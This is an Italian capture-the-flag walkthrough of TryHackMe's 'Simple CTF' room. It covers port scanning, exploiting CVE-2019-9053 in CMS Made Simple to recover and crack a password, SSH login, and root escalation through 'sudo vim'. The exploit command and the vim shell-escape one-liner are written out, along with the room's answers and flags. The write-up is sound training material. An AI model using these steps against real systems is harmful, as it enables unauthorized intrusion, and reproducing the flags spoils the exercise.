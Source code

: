 # Simple CTF

Benvenuto alla sfida "Simple CTF" su TryHackMe! Nonostante la sua descrizione minimale, questa CTF è progettata per guidarti attraverso alcune delle competenze fondamentali richieste in molte competizioni di hacking, fornendo un'esperienza ideale per i principianti.

La sfida "Simple CTF" è un ambiente sicuro e controllato che ti permette di esplorare e padroneggiare le competenze essenziali delle CTF. Il percorso include fasi cruciali come la scansione e l'enumerazione, la ricerca di vulnerabilità, lo sfruttamento e l'escalation dei privilegi.

**Cosa aspettarti**:

**Scansione ed Enumerazione**: Utilizza strumenti di scansione per identificare i servizi in esecuzione sulla macchina bersaglio e raccogli informazioni cruciali per avanzare nella tua missione.

**Ricerca**: Scava nella profondità del sistema per individuare punti deboli e vulnerabilità nascoste. La ricerca è la chiave per trovare le vie di accesso.

**Sfruttamento**: Una volta individuate le debolezze, metti in pratica le tue abilità di sfruttamento per guadagnare l'accesso non autorizzato. Affina la tua abilità nell'arte dell'hacking etico.

**Escalation dei Privilegi**: Supera le sfide aggiuntive che possono sorgere una volta ottenuto l'accesso. L'escalation dei privilegi ti aiuterà a ottenere il controllo completo del sistema.

**Obiettivi**:

- Trova e sfrutta le vulnerabilità.
- Raccogli le informazioni necessarie per completare la sfida.
- Scala i privilegi per ottenere il controllo totale.

e rispondi a tutte le domande...

Ricorda, questa CTF è pensata per i principianti, quindi non preoccuparti se sei alle prime armi. Utilizza questa opportunità per migliorare le tue abilità e diventare un esperto nell'arte dell'hacking etico. Buona fortuna, e che l'avventura inizi!

## SOLUZIONE 
_per completare la stanza rispetterò l'ordine delle domande_

Per iniziare provo a fare una scansione delle porte aperte, questo approccio mi è indicato dalla prima domanda

```sh
└─$ nmap -p- -sS -A 10.10.248.183
```
l'output indica che ci sono 3 porte aperte:
- Port 21 (Servizio FTP): Il server FTP vsftpd 3.0.3 è in esecuzione, consentendo l'accesso anonimo.
- Port 80 (Servizio HTTP): Apache httpd 2.4.18 è in esecuzione su Ubuntu, con una pagina predefinita che indica il funzionamento di Apache e un file robots.txt con voci disallow.
-  Port 2222 (Servizio SSH): OpenSSH 7.2p2 è in esecuzione su Ubuntu 4ubuntu2.8 sulla porta 2222/tcp.

![Alt text](img/image.png)
```diff
- Quanti servizi sono in esecuzione sotto la porta 1000?
```
$${\color{red}Quanti \space servizi \space sono \space in \space esecuzione \space sotto \space la \space porta \space 1000?}$$

$${\color{green}2}$$

<span class="Q">
Quanti servizi sono in esecuzione sotto la porta 1000?
</span>
<span class="A">
2
</span>

<span class="Q">
Cosa è in esecuzione sulla porta superiore?
</span>
<span class="A">
SSH
</span>

L'output di Nmap ci viene di nuovo in aiuto fornendoci anche la risposta della seconda domanda

Ora è necessario raccogliere qualche informazine in più.

sappiamo che la porta 80 espone un Apache quindi proviamo a visitare il sito

![Alt text](img/image-1.png)

abbiamo la conferma che il server Web è un Apache2 come indicato da Nmap.

ora provo con gobuster a fare una scansione del sito alla ricerca di altre pagine.

ho utilizzato DirBuster con la wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

è possibile anche usare GoBuster; lascio per completezza il comando:
```sh
└─$ gobuster dir -u http://10.10.248.183:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 
```
**dir** cerca solo le cartelle
**-u** è l'url
**-w** è la wordlist
**-t** sono i threads

![Alt text](img/image-2.png)

ho trovato molte directory e file; visiterò /simple/ nella quale c'è index.php

![Alt text](img/image-3.png)

la pagina è riferita ad un CMS chiamato CMS Made Simple. in fondo alla pagina è possibile vedere la versione.

![Alt text](img/image-4.png)

direi che è possibile fare una ricerca su google inserendo qualcosa del genere "_CMS Made Simple version 2.2.8 exploit_"

Il primo link di google è di exploit-db: https://www.exploit-db.com/exploits/46635

![Alt text](img/image-5.png)

questa pagina ci fa rispondere alle successive 2 domande

<span class="Q">
Qual è il CVE che stai usando contro l'applicazione?
</span>
<span class="A">
CVE-2019-9053
</span>

<span class="Q">
A che tipo di vulnerabilità è vulnerabile l'applicazione?
</span>
<span class="A">
SQLi
</span>

l'exploit è uno stript in python quindi lo ho capiato e incollato in un file .py

per comodità l'ho chiamato con il nome del CVE 
```sh
└─$ nano CVE-2019-9053.py
```
dando un'occhiata veloce al codice vengono importati dei moduli che sono per lo più built-in.
I moduli da installare sono: **termcolor** e **requests**.

quindi all'interno della directory in cui si trova il file .py installo un venv
```sh
└─$ python3 -m venv venv 
```
e successivamente lo attivo
```sh
└─$ source ./venv/bin/activate
```
ora posso installare termcolor e requests senza rischiare un confiltto di versioni, ma sopratutto senza sporcare la mia Kali.
```sh
└─$ pip install termcolor requests
```
Ora provo a eseguirlo e vediamo cosa ottengo in cambio. Se non si conosce la sintassi, si può eseguire lo script senza argomenti e ti darà alcune informazioni su cosa inserire, una sorta di Help.

![Alt text](img/image-6.png)

Qui possiamo vedere che abbiamo bisogno di fornire: 
- URL usando il flag -u 
- una wordlist per il cracking delle password usando -w.
```sh
└─$ python CVE-2019-9053.py -u http://10.10.248.183/simple/ --crack -w /usr/share/wordlists/rockyou.txt 
```
Ora, eseguiamolo e vediamo cosa otteniamo in cambio.

Il risultato è che abbiamo trovato:
```output
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
quindi possiamo rispondere alle seguenti domande:

<span class="Q">
Qual è la password?
</span>
<span class="A">
secret
</span>

<span class="Q">
Dove si può accedere con i dati ottenuti?
</span>
<span class="A">
SSH
</span>

ovviamente proverò subito ad eseguire l'accesso tramite SSH

![Alt text](img/image-7.png)

Bingo!

Ora vediamo dove sono e cosa c'è nella home del utente mitch

![Alt text](img/image-8.png)

quindi posso rispondere alla domanda:

<span class="Q">
Qual è il flag dell'utente?
</span>
<span class="A">
G00d j0b, keep up!
</span>

è facile rispondere anche a quella dopo dopo:
<span class="Q">
C'è qualche altro utente nella home directory? Come si chiama?
</span>
<span class="A">
sunbath
</span>

![Alt text](img/image-9.png)

per generare una shell con privilegi è necessario fare un paio di ricerche su google. Ma prima ho bisogno di conoscere se l'utente mitch può eseguire dei binari senza password.
per fare questo posso vedere quali binari sono consentiti a mitch con il comando:
```sh
└─$ sudo -l
```
![Alt text](img/image-10.png)

<span class="Q">
Cosa puoi sfruttare per generare una shell privilegiata?
</span>
<span class="A">
vim
</span>

Posso vedere che l'utente "mitch" può eseguire /usr/bin/vim senza una password. Questa informazione mi servirà per rispondere all'ultima domanda.

Diamo un'occhiata a GTFOBins e vediamo se possiamo usarlo per privesc.

![Alt text](img/image-11.png)
url: https://gtfobins.github.io/gtfobins/vim/

La documentazione dice che se eseguo questo comando qui posso aumentare i miei privilegi!

```sh
└─$ sudo vim -c ':!/bin/sh'
```
![Alt text](img/image-12.png)

<span class="Q">
Che cos'è il flag di radice?
</span>
<span class="A">
W3ll d0n3. You made it!
</span>

Finita!!!

<style>
    .Q {
        font-weight: bold;
        color: red;}
    .A {
    font-weight: bold;
    color: Green;}
</style>

